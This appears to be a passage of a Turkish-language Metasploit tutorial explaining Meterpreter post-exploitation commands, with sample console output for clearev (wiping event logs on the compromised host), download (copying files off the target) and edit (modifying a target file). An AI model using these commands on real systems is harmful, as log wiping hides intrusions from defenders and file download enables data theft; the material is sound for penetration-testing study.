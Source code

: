 
## clearev



`clearev` komutu, Clear Evidence yani delilleri temizleme anlamına gelir. Karşı tarafta açılan oturumda oluşturulan **log** dosyalarını temizlemeye çalışır.


```bash
meterpreter > clearev
> Wiping 97 records from Application...
> Wiping 415 records from System...
> Wiping 0 records from Security...
meterpreter >
```



## download



Karşı bilgisayardan bir dosya indirmeye yarar. İndirilen dosya, metasploit’i başlatırken yerel sisteminizde hangi klasördeyseniz, oraya kaydedilir.


```bash
meterpreter > download c:\\boot.ini
> downloading: c:\boot.ini -> c:\boot.ini
> downloaded : c:\boot.ini -> c:\b<a href="http://oot.ini/boot.ini">oot.ini/boot.ini</a>
meterpreter >
```



## edit



`edit` komutu, karşı taraftaki bilgisayarda bulunan bir dosyayı düzenlemek üzere `vim` editörde açar. Vim Editör kullanımı için <a href="http://www.vim.org/">Vim</a> sayfasına bakabilirsiniz.


```bash
meterpreter > ls

Listing: C:\Documents and Settings\Administrator\Desktop
**========================================================**

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
.
...snip...
.
100666/rw-rw-rw-  0       fil   2012-03-01 13:47:10 -0500  edit.txt

meterpreter > edit edit.txt
```
